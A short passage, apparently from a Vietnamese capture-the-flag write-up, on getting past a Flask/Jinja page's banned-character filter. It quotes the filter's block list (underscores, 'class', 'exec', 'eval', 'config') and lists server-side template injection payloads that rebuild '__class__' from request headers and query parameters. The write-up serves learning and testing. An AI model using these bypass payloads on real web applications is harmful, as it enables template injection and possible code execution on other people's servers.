 ![image-20230524105107027](./assets/image-20230524105107027.png)

Nhưng mà mình cần phải bypass qua các filter này

```python
# Extra protection for my page.
banned_chars = {
    "\\",
    "_",
    "'",
    "%25",
    "self",
    "config",
    "exec",
    "class",
    "eval",
    "get",
}
```

Tại đây mình cũng có các payload để bypass các filter này bằng cách sử dụng các param hay header khác 

```python
## Using request object options
request|attr(request.headers.c) #Send a header like "c: __class__" (any trick using get params can be used with headers also)
request|attr(request.args.c) #Send a param like "?c=__class__
request|attr(request.query_string[2:16].decode() #Send a param like "?c=__class__
request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join) # Join list to string
http://localhost:5000/?c={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_ #Formatting the string from get params
```
